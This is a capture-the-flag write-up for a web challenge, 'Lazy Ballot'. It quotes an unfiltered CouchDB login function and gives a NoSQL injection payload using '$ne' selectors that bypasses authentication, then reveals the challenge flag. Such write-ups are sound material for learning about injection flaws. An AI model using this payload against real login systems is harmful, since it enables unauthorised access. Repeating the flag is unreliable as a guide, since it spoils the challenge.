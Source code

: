 # Lazy Ballot
> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

## About the Challenge
We have been given a source code (You can download the source code [here](web_lazy_ballot.zip)) and also we got a website to test. Here is the preview of the website

![preview](images/preview.png)

And also there is a login page

![prevew_login](images/preview_login.png)

The flag was located in the database, especially in the `votes` database and we need to login first to obtain the flag

![flag_location](images/flag_location.png)

## How to Solve?
If you check this code in `database.js` file

```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
    }
```

As you can see there is no filter in the code so we can bypass it using this payload

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![bypass](images/bypass.png)

And then find the flag in the voting list

![flag](images/flag.png)

```
HTB{c0rrupt3d_c0uch_b4ll0t}
```